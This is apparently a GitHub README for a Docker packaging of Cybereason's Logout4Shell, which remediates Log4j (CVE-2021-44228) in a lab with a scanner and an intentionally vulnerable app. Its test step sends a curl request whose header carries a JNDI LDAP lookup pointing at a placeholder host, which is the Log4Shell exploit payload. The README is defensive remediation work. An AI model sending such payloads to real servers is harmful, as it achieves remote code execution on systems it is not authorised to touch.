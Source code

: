 # Logout4Shell Container

## Description

Since the disclosure of the Apache Log4j vulnerability affecting versions 2.0 through 2.14.1 in December of 2021, enterprises and small businesses have made it a priority to mitigate this risk. This vulnerability was given the highest possible severity rating of 10 when the CVE-2021-44228 was published on December 9, 2021 which allows remote code execution on vulnerable servers. 

With the guidance from the Apache software foundation, the best mitigation against this vulnerability is to patch log4j to 2.17.0 and above. In response to this 
vulnerability organizations like Cybereason and FullHunt have developed tools to scan for the vulnerability and mitigate this risk without the need to patch 
or restart the server.

Logout4Shell Container is not intended to take any credit for the research and development of these tools, but was developed for POC and ease of deployment.

More information regarding these tools can be found on [Cybereason Logout4Shell](https://github.com/Cybereason/Logout4Shell/blob/main/README.md) and 
[FullHunt log4j-scan](https://github.com/fullhunt/log4j-scan/blob/master/README.md)


## How Logout4Shell Container works

The Logout4Shell Container is an application consisting of the Cybereason Logout4Shell webserver and LDAP server. When a JNDI lookup with an appropriate HTTP header is sent to the vulnearble app, log4j interpolates the string and queries the LDAP server. The LDAP server then provides directory information for the Java class which is hosted on the webserver through the Transient and Persistent payloads. The payload remediates the log4j vulnerabilty by changing the FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value from False to True. A quick warning that I haven't used this remediation in a production environment. More information regarding the potential impact it may have in a production environment can be read in Cybereason's documentation.

## POC Test Environment

- Logout4Shell Container deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- FullHunt log4j scan deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- Vulnerable app deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance. More information regarding this vulnerable app can be found on [Log4Shell sample vulnerable application]( https://github.com/christophetd/log4shell-vulnerable-app/blob/main/README.md).

## Test Environment Setup

### Logout4Shell Container

1. Launch an EC2 instance with the user data script below. This will run an OS update, install and start the Docker engine, ensure that the Docker daemon starts after each system reboot, and install git:
```
#!/bin/bash
yum update -y
amazon-linux-extras install -y docker
service docker start
system reboot
systemctl enable docker
yum install -y git
```
2. Install the latest version of Docker Compose:
```
sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```
3. Adjust permissions:
```
sudo chmod +x /usr/local/bin/docker-compose
```
4. Clone Logout4Shell Container repository:
```
git clone https://github.com/gbarretto/logout4shell-container.git
```
5. Change directory to logout4shell-container.
```
cd logout4shell-container
```
6. Open var.env in GNU nano to edit.
```
nano var.env
```
7. Replace ```<host_ip>``` with the public IP address of the EC2 instance making sure to keep quotation marks.  
8. Replace ```<mode_type>``` with Transient or Persistent making sure to keep quotation marks. 
9. Press ```Control + X``` to bring you to Save modified buffer question. Then press ```Y```. Then press ```Enter``` to write changes to var.env file.
10. Run the command below to add the ec2-user to the docker group so you can execute Docker commands without using sudo:
```
sudo usermod -a -G docker ec2-user
```
11. Log out of your SSH session using ```exit``` and log back in again to pick up the new docker group permissions. 
12. Change directory to logout4shell-container:
```
cd logout4shell-container
```
13. Build Docker images using the command below:
```
docker-compose build
```
- When images are successfully built you'll see:
```
Successfully built XXXXXXXXXXXX
Successfully tagged gbarretto/cybereason:ldap-persistent
```
14. Launch the container in detached mode:
```
docker-compose up -d
```
- When the containers is successfully launched you'll see:
```
Creating network "logout4shell-container_default" with the default driver
Creating webserver       ... done
Creating ldap-persistent ... done
```

### FullHunt log4j scan
1. Launch an EC2 instance with the same user data script from above.
2. SSH into your instance in a new terminal window and run the commands below to build the FullHunt log4j scan.
```
git clone https://github.com/fullhunt/log4j-scan.git
cd log4j-scan
sudo docker build -t log4j-scan .
```

### Vulnerable app
1. Launch an EC2 instance with the same user data script from above. Adjust the security group to allow inbound connection from the IP address of the Logout4Shell container on ports 1389, 8888 and 443 and from the IP address of the FullHunt log4j scan on port 443.
3. SSH into your instance in a new terminal window and run the command below to run the vulnerable app via Docker.
```
docker run --name vulnerable-app --rm -p 443:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
Also make sure this container isn't publicly accessible.

### Adjust Security Group for Logout4Shell Container
1. In the AWS Management Console adjust the security group for the Logout4Shell Container to allow inbound connection from the IP address of the Vulnerable App on ports 1389 and 8888.

## How it works
1. Let's first vaildate that the Vulnernable app is indeed vulnerable. From the FullHunt log4j scan terminal window, execute the command below replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance.
```
sudo docker run -it --rm log4j-scan -u http://<Vulnerable_App_IP_Address>:443
```
- After a few seconds you should receive the following response:
```
[!!!] Target Affected
```
2. To vaccinate the Vulnerable app run the command below from the Logout4Shell Container terminal window replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance and ```<Logout4Shell_Container_IP_address>``` with the IP address of the Logout4Shell Container instance.
```
curl <Vulnerable_App_IP_Address>:443 -H 'X-Api-Version: ${jndi:ldap://<Logout4Shell_Container_IP_address>:1389/a}'
```
- After a few seconds you should receive a similar response in the Vulnerable app terminal window:
```
HelloWorld                               : Received a request for API version ${jndi:ldap://XX.XX.XXX.XXX:1389/a}
```
- If you scroll up in the same window you should receive the response below validating the Transient or Persistent payload was executed:
```
Setting FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value to True
````
3. Run the FullHunt log4j scan again and you should receive the output below validating the log4j vulnerability has been remediated.
```
[•] Targets do not seem to be vulnerable.
```

